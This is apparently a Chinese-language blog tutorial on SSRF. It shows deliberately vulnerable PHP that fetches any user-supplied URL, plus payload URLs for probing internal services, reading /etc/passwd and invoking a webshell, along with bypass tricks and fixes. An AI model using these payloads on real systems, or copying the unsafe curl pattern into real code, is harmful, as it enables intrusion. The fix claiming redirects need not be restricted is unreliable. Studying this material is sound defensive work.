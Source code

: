 ```yaml
---
layout: post
title: "SSRF漏洞小结"
subtitle: "SSRF漏洞小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

**什么是SSRF （Server-side Request Forgery）服务端请求伪造**



​        由于某些应用需要调用其他服务器上的资源，需要传入一个目标地址供服务器去请求，假设这个目标地址被攻击者控制，就可以访问促使服务器访问内网的其他服务。



**SSRF 漏洞源码**

```php
// ssrf.php
<?php
function curl($url){   //  程序获取url参数
    
    $ch=curl_init();   // 通过curl_init()初始化curl组件后
    curl_setopt($ch,CURLOPT_URL,$url); 
    // 将参数URL带入curl_setopt($ch,CURLOPT_URL,$url),
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch); // 然后调用curl_exec请求该URL
    curl_close($ch);
}
$url=$_GET['url’];
// 由于服务器端会将banner信息返回给客户端，所以可根据banner判断主机是否存在某些服务。
curl($url);
?>

```



**Curl 支持的协议**

```bash
Mac-PpBiBo $ curl -V
curl 7.54.0 (x86_64-apple-darwin18.0) libcurl/7.54.0 LibreSSL/2.6.5 zlib/1.2.11 nghttp2/1.24.1
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp 

```



**探测内网**

```bash
http://192.168.1.102/ssrf.php?url=dict://127.0.0.1:3306
view-source:http://192.168.1.102/ssrf.php?url=http://192.168.1.101/l.php
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/robots.txt
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/favicon.ico
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/index.html
http://192.168.1.102/ssrf.php?url=file://C:/phpStudy/phptutorial/WWW/1.asp
http://192.168.1.102/ssrf.php?url=file:///etc/passwd
view-source:http://192.168.1.102/ssrf.php?url=file://C:/phpStudy/phptutorial/WWW/cmd.php
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/muma.php?pass=phpinfo();
http://192.168.1.102/ssrf.php?url=
```



**绕过技巧**



短网址绕过

IP限制绕过

​    十进制转换 八进制转换 十六进制转换  不同进制组合转换

[https://abc.com@127.0.0.1](https://abc.com@127.0.0.1/)与[http://127.0.0.1](http://127.0.0.1/)的请求是一样的



**从WEB功能上寻找SSRF漏洞**

1. 分享：通过URL地址分享网页内容
2. 转码服务：通过URL地址把原地址的内容调优为适合手机屏幕浏览的内容
3. 在线翻译：通过URL地址翻译对应的网页内容。提供此功能的有国内的百度翻译，有道翻译
4. 图片加载和下载：通过URL加载图片或下载
5. 图片、文章收藏功能
6. 未公开的api实现及其他通过参数调用外部资源的功能



**URL中可能存在SSRF漏洞的关键字**

```bash
share
url
img
wap
link
src
source
target
u
3g
display
sourceURL
image
imageURL
domain

```



**修复方案：**

​    • 限制协议为HTTP、HTTPS

​    • 不用限制302重定向

​    • 设置URL白名单或者限制内网IP